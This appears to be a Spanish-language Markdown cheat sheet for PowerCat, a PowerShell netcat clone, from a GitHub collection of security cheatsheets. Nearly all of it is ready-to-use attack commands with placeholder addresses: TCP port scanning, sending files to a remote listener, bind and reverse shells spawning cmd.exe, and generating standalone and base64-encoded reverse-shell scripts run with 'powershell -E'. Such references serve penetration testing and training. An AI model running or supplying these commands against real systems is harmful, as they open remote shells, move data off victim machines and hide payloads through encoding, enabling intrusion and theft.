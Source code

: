 # PowerCat Cheat Sheet

#### Escanear puertos TCP
```
(21,22,80,443) | % {powercat -c <IP-ADDRESS> -p $_ -t 1 -Verbose -d}
```

#### Transferir archivos

- `nc -nvlp <PORT> > output.txt`: Host a recibir el archivo en el puerto especificado.

- `powercat -c <IP-ADDRESS> -p <PORT> -i <FILE>`: Host que envia el archivo al host destino.

#### Bind Shell (Netcat to PowerCat)

- `powercat -l -p <PORT> -e cmd`: Escuchando la conexión.

- `nc -nv <IP-ADDRESS> <PORT>`: Conexión a la shell.

#### Bind Shell (Powercat to PowerCat)

- `powercat -l -p <PORT> -e cmd -v`: Escuchando la conexión.

- `powercat -c <IP-ADDRESS> -p <PORT> -v`: Conexión a la shell.

#### Reverse Shell (Netcat to PowerCat)

- `nc -nlvp <PORT>`: Escuchando la conexión.

- `powercat -c <IP-ADDRESS> -p <PORT> -e cmd.exe`: Conexión al host y mandamos la shell.

#### Reverse Shell (Powercat to PowerCat)

- `powercat -l -p <PORT> -e cmd -v`: Escuchando la conexión.

- `powercat -c <IP-ADDRESS> -p <PORT> -e cmd -v`: Conexión al host y mandamos la shell.

#### Reverse Shell with Standalone Shell (Netcat to PowerCat)

- `nc -nlvp <PORT>`: Escuchando la conexión.

- `powercat -c <IP-ADDRESS> -p <PORT> -e cmd.exe -g > shell.ps1`: Generar script con shell.

- `.\shell.ps1`: Ejecutar script.

#### Reverse Shell with Encoded Shell (Netcat to PowerCat)

- `nc -nlvp <PORT>`: Escuchando la conexión.

- `powercat -c <IP-ADDRESS> -p <PORT> -e cmd.exe -ge > encodedshell.ps1`: Generar shell codificado.

- `cat .\encodedshell.ps1`: Mostrar la codificación.

- `powershell -E <ENCODED-SHELL>`: Conexión a la shell.

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)